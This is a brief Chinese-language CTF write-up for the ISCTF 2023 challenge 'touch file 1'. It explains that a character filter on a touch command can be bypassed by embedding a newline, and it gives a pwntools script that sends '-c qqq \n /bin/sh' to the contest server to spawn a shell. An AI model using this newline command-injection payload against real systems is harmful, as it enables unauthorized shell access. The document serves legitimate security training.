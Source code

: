 ```yaml
---
title: isctf2023 - touch file 1
date: 2023/12/4 12:00:00
tags:
    - shell jail
excerpt: 通过命令注入利用换行符成功获取shell。
---
```


## 文件分析

保护全开  
ghidra分析为64位程序

## 解题思路

考察命令注入，进入touch后存在字符检查，把大部分字符都ban了，
但是想到平时输命令都是按回车执行的，那么利用换行能不能结束touch命令呢？

给新手提个醒，read函数虽然是按'\n'截断输入的，但是将'\n'包含在payload中发送过去时，
只要不是最后一个字符，就不会被截断

测试一下，成功拿到shell

## EXPLOIT

```python
from pwn import *
sh = remote('43.249.195.138', 20440)
sh.sendline(b'1')

sh.sendline(b'-c qqq \n /bin/sh')

sh.interactive()
```

Done.
